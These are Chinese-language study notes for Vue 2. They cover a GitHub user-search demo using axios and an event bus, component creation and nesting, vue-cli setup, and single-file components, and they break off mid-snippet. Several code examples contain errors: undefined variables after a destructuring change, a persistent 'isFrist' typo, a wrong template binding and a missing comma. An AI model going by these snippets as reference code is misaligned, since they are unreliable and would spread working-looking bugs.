    </noscript>
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>

~~~


## 2. 创建组件

App.vue

~~~vue
<template>
  <div class="container-fluid">
    <Search></Search>
    <List></List>
  </div>
</template>

<script>
import './assets/css/bootstrap.min.css'
import Search from './components/Search.vue'
import List from './components/List.vue'

export default {
  components: {
    Search,
    List,
  },
}
</script>
~~~


Search.vue

~~~vue
<template>
  <div class="jumbotron jumbotron-fluid">
    <div class="container">
      <h1 class="display-4">Search Github Users</h1>
      <p class="lead">This is a simple demo for using axios to get data from Github.</p>
      <form class="form-inline my-2 my-lg-0">
        <input class="form-control mr-sm-2" type="search" placeholder="Search" aria-label="Search" />
        <button class="btn btn-outline-success my-2 my-sm-0" type="submit">Search</button>
      </form>
    </div>
  </div>
</template>

<script>
export default {}
</script>
~~~


List.vue

~~~vue
<template>
  <div class="container">
    <div class="row justify-content-center">
      <div class="card mr-4 mb-4" style="width: 18rem">
        
        <div class="card-body">
          <p class="card-text text-center">User</p>
        </div>
      </div>
      <div class="card mr-4 mb-4" style="width: 18rem">
        
        <div class="card-body">
          <p class="card-text text-center">User</p>
        </div>
      </div>
      <div class="card mr-4 mb-4" style="width: 18rem">
        
        <div class="card-body">
          <p class="card-text text-center">User</p>
        </div>
      </div>
      <div class="card mr-4 mb-4" style="width: 18rem">
        
        <div class="card-body">
          <p class="card-text text-center">User</p>
        </div>
      </div>
      <div class="card mr-4 mb-4" style="width: 18rem">
        
        <div class="card-body">
          <p class="card-text text-center">User</p>
        </div>
      </div>
      <div class="card mr-4 mb-4" style="width: 18rem">
        
        <div class="card-body">
          <p class="card-text text-center">User</p>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
export default {}
</script>
~~~


## 3. 发送请求

Github API： https://api.github.com/search/users?q=xxx


引入 axios

~~~js
import axios from 'axios'
~~~


给 Search.vue 中的按钮绑定事件

~~~vue
<button class="btn btn-outline-success my-2 my-sm-0" type="submit" @click.prevent="search">Search</button>
~~~

> 由于 button 会触发表单中的默认 submit 事件，所以添加 prevent


在 methods 中定义 search 方法

~~~js
methods: {
    search() {
        axios.get('https://api.github.com/search/users?q=xxx').then(
            (response) => {
                console.log('请求成功了', response.data)
            },
            (error) => {
                console.log('请求失败', error.message)
            }
        )
    },
},
~~~


可以使用 async/await 优化

~~~js
methods: {
    async search() {
        const result = await axios.get('https://api.github.com/search/users?q=xxx')
        console.log(result.data)
    },
},
~~~


给 input 框用 v-model 绑定数据

~~~vue
<input class="form-control mr-sm-2" type="search" placeholder="Search" aria-label="Search" v-model="keywords" />
~~~


data 中添加 keywords 属性

~~~js
  data() {
    return {
      keywords: '',
    }
  },
~~~


然后把请求 url 中的参数用 keywords 替换

~~~js
methods: {
    async search() {
        const result = await axios.get(`https://api.github.com/search/users?q=${this.keywords}`)
        console.log(result.data)
    },
},
~~~


## 4. 组件间传递数据

因为是 Search 发起的请求，但是展示是要在 List 组件中，所以需要使用到全局事件总线来帮助我们做数据传递

首先在 main.js 中把 vm 挂载在 Vue 身上 

~~~js
import Vue from 'vue'
import App from './App'

new Vue({
  render: (h) => h(App),
  beforeCreate() {
    Vue.prototype.$bus = this
  },
}).$mount('#app')

~~~


然后在 List 组件定义事件

~~~js
  mounted() {
    this.$bus.$on('getUsers', (users) => {
      console.log(users)
    })
  },
~~~


在 Search 组件中触发事件

~~~js
  methods: {
    async search() {
      const result = await axios.get(`https://api.github.com/search/users?q=${this.keywords}`)
      this.$bus.$emit('getUsers', result.data.items)
    },
  },
~~~

> 当点击 search 按钮时，就会触发 getUsers 事件，并且把 result.data.items 中的数据通过全局事件总线传递给 List 组件


## 5. 遍历数据

使用 v-for 遍历数据

~~~vue
<template>
  <div class="container">
    <div class="row justify-content-center">
      <div class="card mr-4 mb-4" style="width: 18rem" v-for="item in users" :key="item.login">
        
        <div class="card-body">
          <p class="card-text text-center">{{ item.login }}</p>
        </div>
      </div>
    </div>
  </div>
</template>
~~~


## 4. 完善 List 组件

- 欢迎词
- 加载信息
- 错误信息


在 List.vue 中定义三个 data 属性，isFirst, isLoading, errorMsg

~~~json
  data() {
    return {
      isFirst:'',
      isLoading:'',
      errorMsg:'',
      users: [],
    }
  },
~~~


当 users 中没有用户时，则不展示卡片组，用 v-show 判断 users 长度来控制卡片展示

~~~vue
<div class="card mr-4 mb-4" style="width: 18rem" v-show="users.length" v-for="item in users" :key="item.login">
~~~


- 当 isFirst 为 true 时，则加载欢迎词
- 当 isLoading 为 true 时，则显示 Loading...
- 当 errorMsg 不为空时，则显示错误信息

~~~vue
      <!-- 展示欢迎词 -->
      <h3 v-show="isFirst">Welcome to Github Search Tool</h3>
      <!-- 展示加载信息 -->
      <h3 v-show="isLoading">Loading...</h3>
      <!-- 展示错误信息 -->
      <h3 v-show="errorMsg">{{ errorMsg }}</h3>
~~~


- 当用户信息展示的时候，由于 isFirst 值没有改变为 false，依然会在页面底部显示
- Loading 的状态是由 Search 来判断的，当发送数据，并且数据还没返回时，显示 Loading
- errorMsg 也是由 Search 中的


在 List 组件中，定义全局事件总线中需要接受的参数

~~~js
  mounted() {
      // 定义事件，当 updaeList 被触发时
      // 将传递过来的参数值赋值同步更新到 data 数据中
    this.$bus.$on('updateList', (isFirst, isLoading, errorMsg, users) => {
      this.isFirst = isFirst
      this.isLoading = isLoading
      this.errorMsg = errorMsg
      this.users = users
    })
  },
~~~


所以在按下搜索按钮时这几个状态值也需要改变

~~~js
    search() {
      // 请求前更新数据,传递参数
      // isFirst = false
      // isLoading = true
      // users = []
      this.$bus.$emit('updateList', false, true, '', [])
      axios.get(`https://api.github.com/search/users?q=${this.keywords}`).then(
        (response) => {
          console.log('请求成功了')
          // 请求成功时更新数据
          this.$bus.$emit('updateList', false, false, '', response.data.items)
        },
        (error) => {
          console.log('请求失败')
          // 请求失败更新数据
          this.$bus.$emit('updateList', false, false, error.message, [])
        }
      )
    },
  },
~~~


这样写增加了代码可读性的难度，可以把传值从多个参数改为一个对象参数，这样就可以把参数名带进来了，如 List.vue 定义事件：

~~~js
  mounted() {
      // 定义事件，当 updaeList 被触发时
      // 将传递过来的参数值赋值同步更新到 data 数据中
    this.$bus.$on('updateList', ({dataObj}) => {
      this.isFirst = isFirst
      this.isLoading = isLoading
      this.errorMsg = errorMsg
      this.users = users
    })
  },
~~~


Search 触发事件

~~~js
  methods: {
    search() {
      // 请求前更新数据,传递参数
      // isFirst = false
      // isLoading = true
      // users = []
      this.$bus.$emit('updateList', { isFrist: false, isLoading: true, errorMsg: '', users: [] })
      axios.get(`https://api.github.com/search/users?q=${this.keywords}`).then(
        (response) => {
          console.log('请求成功了')
          // 请求成功时更新数据
          this.$bus.$emit('updateList', { isFrist: false, isLoading: false, errorMsg: '', users: response.data.items })
        },
        (error) => {
          console.log('请求失败')
          // 请求失败更新数据
          this.$bus.$emit('updateList', { isFrist: false, isLoading: false, errorMsg: error.message, users: [] })
        }
      )
    },
  },
~~~


给 List.vue 中 data 更新数据

~~~js
  mounted() {
    this.$bus.$on('updateList', (dataObj) => {
      this.isFirst = dataObj.isFirst
      this.isLoading = dataObj.isLoading
      this.errorMsg = dataObj.errorMsg
      this.users = dataObj.users
    })
  },
~~~


或者在 data 中定义一个对象，然后进行传值

~~~js
export default {
  data() {
    return {
      info: {
        isFrist: true,
        isLoading: false,
        errorMsg: '',
        users: [],
      },
    }
  },
  mounted() {
    this.$bus.$on('updateList', (dataObj) => {
      this.info = dataObj
    })
  },
}
~~~


当然还有改写 List.vue 里边的插值语句，全部切换成对象形式

~~~vue
<template>
  <div class="container">
    <div class="row justify-content-center">
      <div class="card mr-4 mb-4" style="width: 18rem" v-show="info.users.length" v-for="item in info.users" :key="item.login">
        
        <div class="card-body">
          <p class="card-text text-center">{{ item.login }}</p>
        </div>
      </div>
      <!-- 展示欢迎词 -->
      <h3 v-show="info.isFirst">Welcome to Github Search Tool</h3>
      <!-- 展示加载信息 -->
      <h3 v-show="info.isLoading">Loading...</h3>
      <!-- 展示错误信息 -->
      <h3 v-show="info.errorMsg">{{ errorMsg }}</h3>
    </div>
  </div>
</template>
~~~


isFrist 第一次传送数据后就改为 false，之后就不再需要改变这个值了，那么可以不传递数据请求成功或失败中的 isFirst 属性

~~~js
  methods: {
    search() {
      // 请求前更新数据,传递参数
      // isFirst = false
      // isLoading = true
      // users = []
      this.$bus.$emit('updateList', { isFrist: false, isLoading: true, errorMsg: '', users: [] })
      axios.get(`https://api.github.com/search/users?q=${this.keywords}`).then(
        (response) => {
          console.log('请求成功了')
          // 请求成功时更新数据
          this.$bus.$emit('updateList', { isLoading: false, errorMsg: '', users: response.data.items })
        },
        (error) => {
          console.log('请求失败')
          // 请求失败更新数据
          this.$bus.$emit('updateList', { isLoading: false, errorMsg: error.message, users: [] })
        }
      )
    },
  },
~~~

> 这样写造成的后果就是当数据传递成功或失败时，info 中就没有了 isFirst 这个属性


解决办法是通过对象合并

~~~js
  mounted() {
    this.$bus.$on('updateList', (dataObj) => {
      this.info = { ...this.info, ...dataObj }
    })
  },
~~~


如果不想每次调用函数都传入 isFirst


# 组件

组件的定义：实现应用中局部功能代码和资源的集合

组件化开发指的是：根据封装思想，把页面上可重用的 UI 结构封装为组件，从而方便项目的开发和维护。


## 1. 非单文件组件

使用 Vue.extend() 来创建组件，其配置项类似于 new Vue()，但是不用写 el，因为其位置是跟随 vm 而定的，更加灵活。


- 使用 Vue.extend() 创建组件
- Vue 实例配置项中使用 components 属性注册组件
- 在 HTML 结构中使用组件标签


注册组件

~~~js
const school = Vue.extend({
    template: `<div><h3>学校：{{schoolName}}</h3><h3>地址：{{schoolAdd}}</h3></div>`,
    data() {
        return {
            schoolName: '尚硅谷',
            schoolAdd: '北京',
        }
    },
})

const student = Vue.extend({
    template: `<div><h3>姓名：{{studentName}}</h3><h3>年龄：{{studentAge}}</h3></div>`,
    data() {
        return {
            studentName: '张三',
            studentAge: '18',
        }
    },
})
~~~

> 因为子组件没有 el ，所以 template 属性就是其节点，需要使用换行符可以使用反引号
>
> data 使用函数的方式是为了避免对象引用是同一个地址的原因。使用函数返回新的对象，可以让返回的对象是一个独立体


创建 Vue实例，使用 components 注册组件

~~~js
const vm = new Vue({
    el: '#app',
    components: {
        school, // 简写（school:school）
        xuecheng: student,
    },
    data: {
        n: 1,
    },
})
~~~

> 对象中属性名和属性值同名其实可以使用简写形式，如果需要别名则需要补全


使用组件标签

~~~html
<div id="app">
    <school></school>
    <hr />
    <student></student>
</div>
~~~

> 组件标签即是注册组件名


组件的复用性很强，再次添加标签，改变里边的 data 数据，因为我们的 data 定义时使用的是函数式，所以即使是同一个组件生成的内容，其 data 也是不同的对象，互不干扰。

~~~html
<div id="app">
    <school></school>
    <hr />
    <student></student>
    <student></student>
</div>
~~~

> 可以使用 console 改变其中一个组件的 data 值，另外一个组件 data 值不会受到影响。


完整代码：

~~~html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>

        <title>Document</title>
    </head>
    <body>
        <div id="app">
            <school></school>
            <hr />
            <xuesheng></xuesheng>
        </div>

        <script>
            const school = Vue.extend({
                template: `<div><h3>学校：{{schoolName}}</h3><h3>地址：{{schoolAdd}}</h3></div>`,
                data() {
                    return {
                        schoolName: '尚硅谷',
                        schoolAdd: '北京',
                    }
                },
            })

            const student = Vue.extend({
                template: `<div><h3>姓名：{{studentName}}</h3><h3>年龄：{{studentAge}}</h3></div>`,
                data() {
                    return {
                        studentName: '张三',
                        studentAge: '18',
                    }
                },
            })
            // Vue 实例管理组件
            const vm = new Vue({
                el: '#app',
                components: {
                    school,
                    xuesheng: student,
                },
                data: {
                    n: 1,
                },
            })
        </script>
    </body>
</html>

~~~


## 2. 组件名称

非单文件组件中，组件名称就是实例化的组件名，如：

~~~js
// 创建组件
const school = Vue.extend({})

new Vue({
    // 注册组件
    components:{
        school
    }
})
~~~


使用时直接使用标签引入即可

~~~html
<school></school>
~~~


组件命名规则：

- 单个单词组件名使用
  - 第一种写法（首字母小写）：school
  - 第二种写法（首字母大写）：School
- 多单词构成的组件名称
  - my-school 生成组件，JS 语法中需要使用 `'my-school':my-school` 注册组件（加单引号），Vue-devltool 中会显示 MySchool
  - MySchool（需要使用脚手架支持）
- 备注
  - 组件名尽可能回避 HTML 中已有的元素名称，如：h2，H2 都不可以
  - 可以使用 name 配置项指定组件在开发者工具中呈现的名字。
    - 开发者工具中默认大驼峰显示没有使用 name 配置项的组件名
    - 注册组件名应与标签对应（但开发者工具可以利用 name 显示不同名字）


~~~js
// 非单文件组件
const student = Vue.extend({
    name: 'Student',
    template: `<div><h3>姓名：{{studentName}}</h3><h3>年龄：{{studentAge}}</h3></div>`,
    data() {
        return {
            studentName: '张三',
            studentAge: '18',
        }
    },
})

// 单文件组件
export default {
    name:'Student',
    data(){
        return { username:'zs'}    
    }    
}
~~~


关于组件标签：

- 第一种写法：`<school></school>`
- 第二种写法：`<school/>` 需要脚手架支持


简写方式：

~~~js
const school = Vue.extend({})

// 简写形式
const school = {}
~~~


## 3. 组件嵌套

组件可以复用，所以可以把组件放在任意一个组件中，将子组件注册在父组件中即可，如：


- 子组件需要在创建在父组件之前
- 父组件注册子组件
- 父组件使用子组件标签


~~~html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <script src="https://cdn.bootcdn.net/ajax/libs/vue/2.6.9/vue.js"></script>

        <title>Document</title>
    </head>
    <body>
        <div id="app">
            <school></school>
        </div>

        <script>
            // 需要先准备好子组件，才可以在父组件中注册子组件
            const student = Vue.extend({
                template: `<div><h3>姓名：{{studentName}}</h3><h3>年龄：{{studentAge}}</h3></div>`,
                data() {
                    return {
                        studentName: '张三',
                        studentAge: '18',
                    }
                },
            })

            const school = Vue.extend({
                // student 注册给 school，标签只能在 school 组件中使用
                template: `<div><h3>学校：{{schoolName}}</h3><h3>地址：{{schoolAdd}}</h3><student></student></div>`,
                // student 是 school 的子组件
                components: {
                    student,
                },
                data() {
                    return {
                        schoolName: '尚硅谷',
                        schoolAdd: '北京',
                    }
                },
            })

            const vm = new Vue({
                el: '#app',
                components: {
                    // Vue 实例只管理 school 组件
                    school,
                },
                data: {
                    n: 1,
                },
            })
        </script>
    </body>
</html>

~~~


## 4. APP 组件

App 组件通常用来管理应用里边所有的组件，一般称 APP 组件为根组件，定义 app 组件是 Vue 开发的标准模式


定义一个与 school 平级的组件 hello

~~~js
const hello = Vue.extend({
    template: `<h3>{{msg}}</h3>`,
    data() {
        return {
            msg: 'hello',
        }
    },
})
~~~


定义 app 组件

~~~js
const app = Vue.extend({
    template: `<div><hello></hello><school></school></div>`,
    components: {
        school,
        hello,
    },
})
~~~


此时所有的组件管理已经由 app 组件接管，所以 Vue 实例中我们只注册 app 组件即可

~~~js
const vm = new Vue({
    el: '#app',
    components: { app },
})
~~~


在主题结构中，我们仅使用 app 标签即可

~~~html
<div id="app">
    <app></app>
</div>
~~~


如果连 app 都不想写，那么我们可以在 Vue 实例配置时，添加 template 标签，Vue 会自动将 tempalte 标签当做根节点渲染在页面中

~~~js
const vm = new Vue({
    el: '#app',
    template: `<app></app>`,
    components: { app },
})
~~~


主体结构标签只留一个

~~~html
<div id="app">
</div>
~~~


## 5. Vue Components

创建一个简单组件 school

~~~html
<div id="app">
    <school></school>
</div>

<script>
    const school = Vue.extend({
        template: `
	<div>
        <h3>学校：{{schoolName}}</h3>
        <h3>地址：{{schoolAdd}}</h3>
    </div>`,
        data() {
            return {
                schoolName: '尚硅谷',
                schoolAdd: '北京',
            }
        },
    })

    new Vue({
        el: '#app',
        components: { school },
    })
</script>
~~~


在控制台输入 `console.log(school)` ，可以看到 school 其实是一个构造函数


- school 组件本质上是一个名为 VueComponent 的构造函数，且不是程序员定义的，是 Vue.extend 生成的
  - 可以在 Vue.js 中找到 VueComponent 源码，添加 `console.log('VueComponent 被调用了')` ，进行验证
- 当我们在主体结构上写上 `<school></school>` 标签时，Vue 解析会自动帮我们创建  school 组件的实例对象
- 特别注意：每次调用 Vue.extend ，返回的都是一个全新的 VueComponent 实例


关于 this 指向：

- 组件配置中：
  - data 函数，methods 中的函数, watch 中的函数, computed 中的函数，它们的 this 均是 VueComponent 实例对象
- new Vue({}) 配置中
  - 它们的 this 是 Vue 实例对象


Vue Component 的实例对象，简称 vc

Vue 实例对象，简称 vm

> vm 管理着所有 vc，通过 `console.log(vm)` 查看，可以看到在 children 节点下，所有的 vc 都在此处
>
> 组件嵌套时，vc 组件中的 children 是其子组件


## 6. VC 与 VM

组件是可复用的 Vue 实例，虽然 vc 与 vm 类似，其所接受的配置项是相同的，拥有的属性和方法基本都一样，（data，methods，生命周期函数等等），但是还是有些区别的：

| #                | vc             | vm             |
| ---------------- | -------------- | -------------- |
| 使用 el 指定容器 | 不可以         | 可以           |
| data             | 必须使用函数式 | 可以使用对象式 |


一个重要的内置关系

~~~
VueComponent.prototype.__proto__ === Vue.prototype
~~~


- 构造函数身上才有 prototype ，显示原型属性
- 实例身上有的是 `__proto__`， 隐式原型属性，实例的隐式原型属性，永远指向其缔造者的原型对象

> 他们所指向的是同一个对象，称为原型对象


通过图可以看出，VueComponent 的原型对象其实是 Vue 的原型对象，说白了，就是 Vue.prototype 上的属性及方法， VueComponent 也可以使用和调用。


# SPA 单页面应用程序

单页面应用程序（Single Page Application）简称 SPA，指一个 Web 网站只有唯一的 HTML 页面，所有的功能和交互都在这唯一的一个页面中完成。而 Vue，微信小程序等这些项目都是 SPA。


SPA 应用程序的特点

- 仅在 Web 页面初始化时加载相应的资源（HTML, Js, CSS）
- 页面加载完成后，不会因为用户操作进行页面的跳转，而是利用 Javascript 动态的变换 HTML 内容，从而实现与用户交互。


单页面应用程序优点

- 良好用户交互体验
  - 单页面应用不用加载整个页面
  - 获取数据通过 Ajax 异步获取
  - 没有页面之间的跳转，不会出现 “白屏情况”
- 前后端分离
  - 后端专注提供 API 接口
  - 前端专注页面渲染
- 减轻服务器压力
  - 服务器只提供数据，不负责页面合成与逻辑的处理，吞吐能力会提高几倍


单页面应用程序缺点

- 首页加载慢（解决方案）
  - 路由懒加载
  - 代码压缩
  - CDN 加速
  - 网络传输加速
- 不利于 SEO
  - SSR 服务器端渲染
  - 


# Vue-cli 脚手架（创建 SPA)

## 1. Vue-cli 介绍

vue-cli （Command Line Interface）是 Vue.js 开发的标准工具，它简化了程序员基于 webpack 创建工程化的 Vue 项目的过程。


引自 vue-cli 官网上的一句话：

程序员可以专注在撰写应用上，而不必花好几天去纠结 webpack 配置的问题。


官网：https://cli.vuejs.org/zh/


## 2. 安装

vue-cli 是 npm 上的一个全局包，使用 npm install 命令，即可方便的安装。

~~~
npm install -g @vue/cli
~~~


## 3. 创建项目

在 cmd 窗口中敲命令

~~~shell
vue create 项目名称
~~~

> 不要在 VS Code 终端中使用该命令


弹出对话框，可以根据项目要求选择创建的项目


手动选择，按空格选中


选择 Vue 版本


选择 CSS 处理器，一般 Less 即可


选择配置文件存储位置


是否保存预设


创建完成


根据提示，输入代码即可运行项目

~~~shell
cd demo
npm run serve
~~~

> 会自动开启一个小型终端，并且是实时检测代码变化的终端，当改变代码后，main.js 会重新编译。


## 4. 项目结构

~~~
demo
│  .browserslistrc
│  .gitignore						// git 忽略文件
│  babel.config.js					// babel 配置文件，ES6 转 ES5 工具
│  package-lock.json				// 项目包小版本配置文件
│  package.json						// 项目包配置文件
│  README.md
│                 
├─public							
│      favicon.ico					// 图标
│      index.html					// 单页文件
│      
└─src								// 源码
    │  App.vue						// 根组件
    │  main.js						// 入口文件
    │  
    ├─assets						// 第三方资源（css、图片）
    │      logo.png
    │      
    └─components					// 组件
            HelloWorld.vue
~~~


## 5. 项目的工作流程

在工程化项目中，vue 要做的事情很简单，通过 main.js 把 app.vue 渲染到 index.html 的指定区域中


### 5.1 main.js

当运行完 npm run serve 后，脚手架会自动运行 main.js，这个文件被称为项目入口文件

~~~js
// 导入 vue 包，得到 Vue 构造函数
import Vue from 'vue'

// 导入 app.vue 根组件
import App from './App.vue'

Vue.config.productionTip = false

// 创建 Vue 实例
new Vue({
  // 把 render 函数指定的组件，在渲染到 HTML 页面指定位置(#app)
  render: h => h(App),
}).$mount('#app')

~~~


其中 `$mount('#app')` 的作用和 `el: '#app'` 作用是一样的，都是将 vm 实例绑定在 #app 容器上，等价于：

~~~js
import Vue from 'vue'
import App from './App.vue'

Vue.config.productionTip = false

new Vue({
    el:'#app',
    render: h => h(App),
})

~~~


render 这个配置项是将指定的模板交给 Vue 来渲染，之前创建 Vue 是这样写的：

~~~js
new Vue({
    el:'#app',
    template:'<App></App>'
    components:'{App}'
})
~~~


如果这样写的话，那么控制台就会报错：

~~~
[Vue warn]: You are using the runtime-only build of Vue where the template compiler is not available. Either pre-compile the templates into render functions, or use the compiler-included build.
~~~

> 意思是当前引入的 Vue 是不完全版本，要么使用 render 函数解析模板，要么引入带编译器版本的 Vue


其实用  `import Vue from 'vue'` 引入模块的文件是由 vue/package.json 配置的

~~~js
"module": "dist/vue.runtime.esm.js",
~~~

> 这个版本的 vue 是精简版，精简掉了模板解析器，所以 template 标签在 main.js 中无法使用


如果想让 main.js 支持 template 标签，那么就需要引入完整版带有模板解析器的 vue 

~~~js
import Vue from 'vue/dist/vue.js'
~~~

> 模板可以正常解析


当引入 vue.runtime.xxx.js 可以借助 render 函数来指定具体内容

~~~js
new Vue({
    el:'#app',
    // render 的参数是一个函数
    render(createElement){
        // render 需要有返回值
        // createElement 回调函数可以创建元素（标签,内容）
        return createElement('h1','你好')
    },
})
~~~


使用箭头函数精简

~~~js
new Vue({
    el:'#app',
    render:(createElement) => createElement('h1','你好')
})
~~~


再将组件代替标签，不就成了我们示例中的样子了吗？

~~~js
new Vue({
    el:'#app',
    render: h => h(App),
})
~~~


### 5.2 index.html

渲染后，index.html 中的 `<div id="app"></div>` 则被 app.vue 中的代码替换掉。

~~~html
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <!-- 针对 IE 浏览器的一个特殊配置，含义是让 IE 浏览器以最高渲染级别渲染页面 -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <!-- 开启移动端的理想视口 -->
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <!-- Public 路径下 -->
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <!-- 配置网页标题 Webpack 插件从 package.json 中读取 name 属性为标题 -->
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <!-- 如果浏览器不支持 js，noscript 标签中的元素会被渲染在页面上 -->
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
    </noscript>
    <!-- 容器 -->
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>

~~~


## 6. 创建一个自己的 Vue 根组件

在 src 目录中创建 Test.vue

~~~vue
<template>
    <div>
        <p>Hello Vue</p>    
    </div>
</template>
~~~


main.js 导入自己创建的 vue 文件

~~~js
import Vue from 'vue'
// 导入 Test Vue 文件
import Test from './Test.vue'

Vue.config.productionTip = false

new Vue({
    // 更改加载的 Vue 文件
  render: h => h(Test),
}).$mount('#app')

~~~


## 7. 生成项目

在 package.json 中已经定义好了 npm 命令

~~~js
  "scripts": {
    "serve": "vue-cli-service serve",
    "build": "vue-cli-service build"
  },
~~~


运行下方代码即可生成项目文件

~~~
npm run build
~~~


## 8. 查看 webpack 配置项

~~~
vue inspect > output.js
~~~


可以通过 Vue.config.js 更改配置，项目目录下创建该文件，与 package.json 文件同级目录

配置文档：https://cli.vuejs.org/zh/config/


如，更改 page 选项

~~~js
module.exports = {
  pages: {
    index: {
      // page 的入口
      entry: 'src/index/main.js',
      // 模板来源
      template: 'public/index.html',
      // 在 dist/index.html 的输出
      filename: 'index.html',
      // 当使用 title 选项时，
      // template 中的 title 标签需要是 <title><%= htmlWebpackPlugin.options.title %></title>
      title: 'Index Page',
      // 在这个页面中包含的块，默认情况下会包含
      // 提取出来的通用 chunk 和 vendor chunk。
      chunks: ['chunk-vendors', 'chunk-common', 'index']
    },
    // 当使用只有入口的字符串格式时，
    // 模板会被推导为 `public/subpage.html`
    // 并且如果找不到的话，就回退到 `public/index.html`。
    // 输出文件名会被推导为 `subpage.html`。
    subpage: 'src/subpage/main.js'
  }
}
~~~

> webpack 使用的 node 模式，所以需要用 commonJS 语法导出


关闭 Eslint 语法检查

~~~js
lintOnSave: false,
~~~


# Vue 组件

组件的定义：实现应用中局部功能代码和资源的集合

组件化开发指的是：根据封装思想，把页面上可重用的 UI 结构封装为组件，从而方便项目的开发和维护。


## 1. 单文件组件

vue 是一个支持组件化开发的前端框架，vue 中规定：组件的后缀名是 .vue。之前接触到的 App.vue 文件本质上就是一个 vue 的组件


单文件组件都是扩展名以 vue 结尾的，如 App.vue，Header.vue 等等。浏览器并不能直接识别该类型文件。和 less 一样，需要将 less 转成 css 才可以被浏览器识别。vue 文件需要经过转换成 js 文件才可以被浏览器识别。


转换工具：

- webpack
- 脚手架


文件名规则同组件命名规则一样：

- school.vue
- School.vue
- my-school.vue
- MySchool.vue

> 一般选择大驼峰命名法 School 或 MySchool，因为默认开发者工具中也是显示的大驼峰


vue 组件的三个组成部分：

- template 组件的模板结构（DOM 结构）
- script 组件的 javascript 行为
- style 组件的样式


创建一个组件 Test.vue

~~~vue
// 模板（template标签不参与模板结构编译） 
<template>
<div class="test-box">
    <p>Hello Vue</p>
    <p>{{ username }}</p>  
    </div>
</template>

// 脚本
<script>
    // 省略 Vue.extend({})，直接使用简写方式
    export default {
        // 配置组件名在 Vue 开发者工具显示名称，一般与文件名一致
        name: 'Test',
        // 组件中的 data 必须是一个函数
        // data 数据不能以对象方式，而是需要写成函数形式，返回值即是 data 值
        data(){
            return { username:'zs'}    
        }    
    }
</script>

// 样式
<style>
    .test-box{
        background-color: pink;
    }
</style>
~~~


除了 data 需要使用返回值的形式，其他属性大致和之前的写法相同，如添加点击事件：

~~~vue
<template>
	<div class="test-box">
   	 	<p>Hello Vue</p>        
    	<p @click="changeName">{{ username }}</p>  
    </div>
</template>

<script>
    export default {
        data(){
            return { username:'zs'}    
        },
        // 添加方法
        methods:{
            changeName(){            
                console.log(this)
                this.username = 'ls'
            }
        },
        computed: {},
        watch: {},
        filters: {},

    }
</script>

<style>
    .test-box{
        background-color: pink;
    }
</style>
~~~


## 2. 根节点 App.vue

根节点就是在 main.js 中 render 渲染的那个节点，由于是组件化，所以一个组件中只允许出现一个根节点，不可以出现两个平级的顶级元素，如：

~~~vue
<template>
	<div class="test-box">
    	<p>Hello Vue</p>        
    	<p @click="changeName">{{ username }}</p>  
    </div>

// 这里第二个 div 与第一个 div 平级，报错
	<div>
    	<p>Hello World</p>
    </div>
</template>
~~~

> 不符合组件化原则


## 3. less 语法

使用 less 语法可以给 style 做上语言标记

~~~vue
<style lang="less">
.test-box {
  background-color: pink;
  p {
      font-size:30px;
  }
}
</style>
~~~

> less 语法可以对元素统一进行配置，如上方代码中的 p 正常写法应该是 `.test-box p {}`


## 4. 组件之间的父子关系

组件被封装后，彼此之间是独立的，没有任何关系，在项目中使用组件时，往往需要根据彼此之间的嵌套关系，形成父子关系或兄弟关系。


### 4.1 使用组件的三个步骤

- 在 components 目录中创建组件
- 在父组件中（App.vue）中使用 import 语法导入需要的组件
- 使用 components 节点注册组件
- 以标签形式使用注册的组件


~~~js
// 导入组件
import Left from '@/components/Left.vue'
~~~

> @ 为正向导入，@在 webpack.config.js 中定义为 ./src 目录，使用 vue-cli 创建时已经在内部给 @ 做好了 alias 别名


~~~js
// 注册组件
export default {
    components:{
        Left
    }
}
~~~


~~~vue
// 标签形式使用组件
<div class="box">
    <Left></Left>
</div>	
~~~


如：

~~~vue
<template>
<div class="app-container">
    <h1>APP 根组件</h1>
    <hr />
    <div class="box">
        <!-- 渲染 Left 与 Right 组件 -->
        <Left></Left>
        <Right></Right>
    </div>
    </div>
</template>

<script>
    // 导入组件
    import Left from "@/components/Left.vue";
    import Right from "@/components/Right.vue";

    export default {
        components: {
            Left,
            Right
        },
    };
</script>

<style lang="less">
</style>

~~~


### 4.2 私有子组件

使用 components 注册的组件是私有子组件，私有子组件只能应用于其父组件中，而不能应用于其他组件中

例：在 App 组件中注册了 Left，Right 组件，则 Left 与 Right 组件只能在 App 组件中使用，而不能应用于其他诸如 App2 组件中

> 如果其他组件中使用子组件，还需要用 components 在该组件中重新注册


### 4.3 全局组件

全局组件注册后，在任意组件中可以随意调用该子组件

在 vue 项目的 main.js 入口文件中，通过 Vue.component() 方法，可以注册全局组件。实例代码如下：


main.js

~~~js
// 导入全局组件
import Hello from '@/components/HelloWorld.vue'

// 使用 Vue.component 注册全局组件
// 参数1：组件的注册名
// 参数2：导入的组件
Vue.component('Hello',Hello)
~~~


父组件调用全局组件：

~~~
<Hello></Hello>
~~~

> 和私有组件调用方式一样，只不过不用在该组件中导入和注册组件，可以直接使用标签调用


## 5. 组件的 Props

props 是组件的自定义属性，在封装通用组件的时候，合理地使用 props 可以极大的提高组件的复用型，通过 prop 可以让子组件接受到父组件传递过来的值。


定义一个 Count 组件：

~~~vue
<template>
<div>
    <p>{{count}}</p>
    <button @click="count+=1">+1</button>
    </div>
</template>

<script>
    export default {
        data(){
            return {
                count:0
            }
        }

    }
</script>

<style>

</style>
~~~


在 main.js 中注册为全局组件

~~~js
import Vue from 'vue'
import App from './App.vue'
import Count from '@/components/Count.vue'

